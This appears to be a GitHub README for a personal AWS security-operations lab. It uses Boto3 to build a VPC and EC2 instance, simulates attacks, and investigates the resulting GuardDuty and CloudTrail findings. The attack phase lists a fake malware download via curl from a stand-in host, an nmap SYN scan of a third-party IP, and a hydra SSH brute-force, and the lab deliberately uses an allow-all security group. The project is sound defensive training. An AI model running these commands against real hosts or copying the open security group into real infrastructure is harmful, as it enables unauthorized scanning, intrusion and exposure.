 AWS Cloud SOC Simulation: Detection, Attack Emulation & Incident Response

## 📌 Overview
This project simulates a real-world cloud security incident using AWS. It covers everything from infrastructure automation to attack simulation and incident response. I used Python and Boto3 to automate VPC and EC2 deployment, launched attack simulations from a Kali machine, and investigated alerts with GuardDuty and CloudTrail like a real SOC analyst.

🔗 Full documentation with screenshots and commands:  
👉 [documenting.md](https://github.com/jmcoded0/AWS-Cloud-SOC-Simulation-Detection-Attack-Emulation-Incident-Response/blob/main/documenting.md)

## 🧰 Tools & Skills Used
- **Cloud:** AWS (EC2, VPC, GuardDuty, CloudTrail, CloudWatch, IAM, SSM)
- **Automation:** Python, Boto3
- **Security:** SOC workflows, threat detection, IOCs, incident response
- **Attack Simulation:** Nmap, Hydra, curl
- **Monitoring & Logging:** CloudWatch Agent, SSM Parameter Store

## 🎯 Project Goals
- Automate AWS infrastructure (VPC, EC2, security groups) using Python and Boto3.
- Simulate real-world attacks (port scans, SSH brute-force, fake malware downloads).
- Analyze GuardDuty findings and CloudTrail logs to extract IOCs.
- Practice SOC analyst tasks like quarantining compromised resources.

## ⚙️ Phases

### ✅ Phase 1: VPC Automation
- Created a custom VPC (`10.0.0.0/16`), subnets, Internet Gateway, and Route Table using Boto3.
- Used `config.py` for reusable variables.
- **Lesson:** Break scripts into steps and print IDs for easier debugging.

### ✅ Phase 2: Security Group Setup
- Created `coded-sg-v2` security group allowing all traffic (lab-only, insecure).
- Verified default VPC ID using AWS CLI.
- **Lesson:** Intentionally insecure setups maximize detection visibility.

### ✅ Phase 3: EC2 Attacker Setup
- Launched an Ubuntu EC2 instance (`t2.micro`, AMI: `ami-04b70fa74e45c3917`).
- Configured CloudWatch Agent via SSM Parameter Store to monitor logs (`/var/log/syslog`, `/var/log/auth.log`) and metrics.
- Installed tools like `nmap` and `curl` for attack simulation.
- **Lesson:** SSM-managed configs are scalable for monitoring.

### ✅ Phase 4: Attack Simulation
- Simulated:
  - Port scans: `nmap -sS 1.1.1.1`
  - SSH brute-force: `hydra`
  - Fake malware downloads: `curl http://badhost.com/malware`
- Triggered GuardDuty malware detection events (`/aws/guardduty/malware-scan-events`).
- **Lesson:** Even failed commands can trigger behavioral detections.

### ✅ Phase 5: Forensics and IOC Extraction
- Analyzed GuardDuty findings:
  - `Recon:EC2/Portscan`
  - `Backdoor:EC2/DenialOfService.TorClient`
- Extracted IOCs such as:
  - IP: `1.1.1.1`
  - Port: `35`
  - Instance ID: `i-0bca611a4c23538c8`
- Encountered CloudTrail permission error (`cloudtrail:LookupEvents`).
- **Lesson:** IAM policies are critical gatekeepers.

### ✅ Phase 5.2: Manual Quarantine
- Tagged the compromised EC2 instance with `Quarantine=True`.
- Stopped the instance manually.
- **Lesson:** Manual containment builds real IR muscle memory.

### ✅ Phase 6: CloudTrail Analysis
- Correlated GuardDuty findings with CloudTrail logs.
- Investigated snapshot usage and event history.
- **Lesson:** Logs provide crucial context for incident reconstruction.

## 💡 Key Lessons
- Cloud security is tactical—it requires real, hands-on AWS practice.
- GuardDuty + CloudTrail offer deep visibility into threat activity.
- Manual response steps (like tagging or stopping instances) are valid IR actions.
- IAM permissions directly impact your ability to investigate.

## 🙋 Reflections
This project taught me how to think like a cloud security analyst—from building and misconfiguring infrastructure, to simulating real attacks, investigating alerts, and responding manually. It was a full, hands-on journey through AWS security tools like GuardDuty, CloudTrail, and IAM.
